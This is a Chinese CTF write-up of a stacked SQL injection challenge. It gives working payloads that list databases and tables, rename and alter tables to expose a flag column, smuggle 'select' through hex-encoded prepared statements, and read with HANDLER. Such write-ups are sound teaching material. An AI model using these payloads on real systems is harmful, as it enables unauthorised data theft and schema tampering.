 # [强网杯 2019]随便注

## 知识点

`堆叠注入`

## 解题

![](./img/4-1.png)

注入发现为`单引号注入`

![](./img/4-2.png)

查看列

![](./img/4-4.png)

发现为`2`列

联合注入查一下信息

![](./img/4-7.png)

发现过滤了`select`

堆叠注入试试,就是通过`;`号注入多条`SQL`语句。

```mysql
1';show databases%23
1';show tables%23
# 表名为数字时，要用反引号包起来查询。
1';show columns from `1919810931114514`%23
1';show columns from words%23
```

查出来了表`1919810931114514`和`words`，

`1919810931114514`表有`flag`列

`words`表有`id`列和`data`列

但是`select`被过滤了，需要绕过

### 方法一 更改查询表名为目标表名及更改对应字段

1. 通过` rename `先把`words` 表改名为其他的表名。
2. 把`1919810931114514`表的名字改为`words`
3. 给`words`表添加新的列名`id`
4. 将`flag`字段名改为与`words`中相同的列名`data`

然后就可以通过查询`id`得方法查出来`flag`字段的内容了

```mysql
1';rename table words to word1;rename table `1919810931114514` to words;alter table words add id int not NULL auto_increment primary key;alter table words change flag data varchar(100);%23
```

提交`payload`后，再查询`id`为`1`的数据，就可以查到`flag`

![](./img/4-8.png)

### 方法二 预处理语句配合十六进制编码

因为`select`被过滤了

```
所以先将select * from `1919810931114514`进行16进制编码
```

再构造预处理语句

```mysql
;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
# 因上述方法更改了flag表，所以真实的flag在words表中，所以重新编码
0';Set@a=0x73656c656374202a2066726f6d2060776f72647360;prepare execsql from @a;execute execsql;%23
```

### 方法三 非预期

```mysql
1'; handler `1919810931114514` open as `a`; handler `a` read next;#

666c6167
```
